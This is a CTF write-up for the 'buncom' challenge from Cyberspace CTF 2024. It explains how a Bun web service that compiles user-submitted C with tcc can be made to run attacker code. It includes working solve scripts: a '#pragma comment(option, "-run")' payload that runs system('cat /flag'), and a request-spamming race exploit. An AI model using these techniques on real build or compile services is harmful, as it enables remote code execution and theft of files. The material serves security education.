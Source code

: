 # buncom

|              |                                                                                    |
| ------------ | ---------------------------------------------------------------------------------- |
| **CTF**      | [Cyberspace CTF](https://2024.csc.tf/) [(CTFtime)](https://ctftime.org/event/2428) |
| **Author**   | [nullchilly](https://github.com/nullchilly)                                        |
| **Category** | misc                                                                               |
| **Solves**   | 3 / 830                                                                            |
| **Files**    | [handout_buncom.zip](./handout_buncom.zip)                                         |

> Note: There is no `challenge.yaml` for this challenge since it requires per-team instances.

# Solution

> [!NOTE]
> This challenge is inspired by [Echo as a Service](https://github.com/lebr0nli/My-CTF-Challenges/tree/main/HITCON%20CTF%202024/Echo%20as%20a%20Service). Much thanks to [lebr0nli](https://github.com/lebr0nli)!

## Overview

Upon launching an instance you can see a code editor and a submit button

![](./image/web.png)

After further inspection using the given [index.js](./challenge/src/index.js) file, lets break down the flow of the website:

- Compile `default.c` and save the md5 hash of the output binary.

```js
import { $ } from "bun";

const src = "/tmp/custom.c",
  exe = "/tmp/a.out";

let hash = await $`
  cp default.c ${src};
  timeout 0.1 tcc ${src} -o ${exe};
  timeout 0.1 md5sum ${exe}`.text(),
  output = "";
```

This is just a simple misdirection, I don't actually think you can construct an another file with the same `md5sum`, especially using binary output format but I'm happy to be proven wrong!

- Serve the http website on port 1337 using bun

```js
const server = Bun.serve({
  host: "0.0.0.0",
  port: 1337,
  async fetch(req) {
    const url = new URL(req.url);
    if (url.pathname === "/") {
```

- If the parameter code exists, write its content to `$src` and compile to `$exe` using tcc

```js
const code = new URLSearchParams(url.search).get("code");
if (code) {
  try {
    output =
      await $`echo ${code} > ${src}; timeout 0.1 tcc ${src} -o ${exe}`.text();
  } catch (err) {
    output = err.stderr.toString();
  }
}
```

Again, a misdirection. There isn't any bun command injection to my knowledge but if you found a 0day you deserve the flag anyway!

- Compare md5 hash of the binary. If the hash is different, recompile using `tcc default.c`

```js
if ((await $`timeout 0.1 md5sum ${exe}`.text()) !== hash) {
  await $`timeout 0.1 tcc default.c -o ${exe}`.text();
  output = `md5sum ${exe} != ` + hash;
}
```

- Finally, return the content from the binary as `text/html` (See [default.c](./challenge/src/default.c))

```js
let html = await $`${exe}`.text();
html = html.replace("__CODE__", Bun.escapeHTML(await Bun.file(src).text()));
return new Response(output + html, {
  headers: {
    "Content-Type": "text/html; charset=utf-8",
    "Content-Security-Policy":
      "script-src 'self'; object-src 'none'; base-uri 'none'; require-trusted-types-for 'script';",
  },
});
```

![](./image/change.png)

Let's try to include the flag

![](./image/include.png)

Hmm tcc seems to output very little compile error details

Since we know the flag format, we can try to make the flag include-valid:

![](./image/include_define.png)

This doesn't output the full flag because it contains special characters

You can keep playing with `#define` but I don't think it's possible to leak the part that contains a single `'` as it breaks tcc parsing. For reference you can see the [full flag](./challenge/flag)

An another idea is try to make it compile error or not based on the content of the flag. There's an excellent writeup for [hxp compilerbot](https://rpis.ec/blog/hxp-26c3-ctf-compilerbot/). However, this doesn't work because tcc doesn't support `.incbin` in the first place

## Solution

### Intended solution

Since this challenge ran tcc instead of gcc or clang, it makes sense to look at the help page:

```cpp
> tcc -h
Tiny C Compiler 0.9.28rc - Copyright (C) 2001-2006 Fabrice Bellard
Usage: tcc [options...] [-o outfile] [-c] infile(s)...
       tcc [options...] -run infile (or --) [arguments...]
General options:
  -c           compile only - generate an object file
  -o outfile   set output filename
  -run         run compiled source
```

What if we can run code during compile time in tcc? If we can override the tcc compiler flag to add `-run` that would be great! That way the `md5sum` will stay the same

Maybe something similar to `#pragma GCC optimize "-Ofast"`?

Notice these 3 lines in [Dockerfile](./challenge/Dockerfile), tcc was installed from source

```docker
RUN apt update && apt install git gcc make -y
RUN git clone --depth=1 https://github.com/TinyCC/tinycc.git tinycc
RUN cd tinycc && ./configure --prefix=/usr && make && make install
```

This gives us the motivation to look at the latest source code [tinycc/tests/tests2/60_errors_and_warnings.c](https://github.com/TinyCC/tinycc/blob/1cee0908d2a72d2568b2e915e8d619f049dfcf92/tests/tests2/60_errors_and_warnings.c#L416-L422)

```cpp
#pragma comment(option, "-Wall")
#elif defined test_switch_W2
#pragma comment(option, "-Wunsupported -Wno-implicit-function-declaration -Wstuff")
#elif defined test_switch_W3
#pragma comment(option, "-Wwrite-strings -Werror=discarded-qualifiers")
#elif defined test_switch_W4
#pragma comment(option, "-Wunsupported -Wno-error=implicit-function-declaration -Werror")
```

Ah there it is, you can add the compiler flags during compile time! Which means it will probably works for all options too and specifically `#pragma comment(option, "-run")`

`solve.py`

```py
URL = "http://localhost:1337/"
URL = "http://5b964bb4-10f6-4d1b-a191-a1e4578261b7.bugg.cc/"

import requests, urllib

code = """
#pragma comment(option, "-run")

int main() {
  system("cat /flag");
}
"""

print(requests.get(f"{URL}?code=" + urllib.parse.quote(code)).text)
```

```sh
> python solve.py
CSCTF{I_tried_so_hard:(_and_got_so_far._But_in_the_end,_/flag_doesn't_even_matter!4ZeR18AXbDlZvKor91No}
```

> [!NOTE]
> But why would we compile from source when we can just install `tcc` using `apt install tcc -y`?
> The reason is that `oven/bun:slim` uses debian under the hood and they shipped a broken version of tcc. This will make `#pragma` [deadlock with tcc_warning()](https://github.com/TinyCC/tinycc/commit/dda95e9b0b30771369efe66b4a47e94cf0ca7dc0)

# Unintended solution 😭

Fun fact, all 3 solves in this ctf were unintended using race condition.

Because the fetch function is async, if you spam enough requests the website flow might look like this:

```js
await $`timeout 0.1 tcc ${src} -o ${exe}`;
return new Response(await $`${exe}`.text());
```

As you can see it completely bypassed the hash check, just spam requests until you get the above scenario:

`solve_race.js`

```js
let URL = "http://localhost:1337/";
URL = "https://43b64d26-d839-427d-92b2-68cf49cde759.bugg.cc";

for (let i = 0; i < 1000; i++)
  fetch(`${URL}?code=${encodeURIComponent('main() { system("cat /flag"); }')}`)
    .then((res) => res.text())
    .then((text) => {
      if (text.includes("CSCTF")) console.log(text);
    });
```

```sh
> bun solve_race.js
CSCTF{I_tried_so_hard:(_and_got_so_far._But_in_the_end,_/flag_doesn't_even_matter!4ZeR18AXbDlZvKor91No}
```

Solution by [t-rekttt](https://github.com/t-rekttt) which is also a first blood, congratulations!

![](image/blood.png)

`t-rekttt` also gave idea on how to prevent race condition, thank you so much!

![](image/prevention.png)
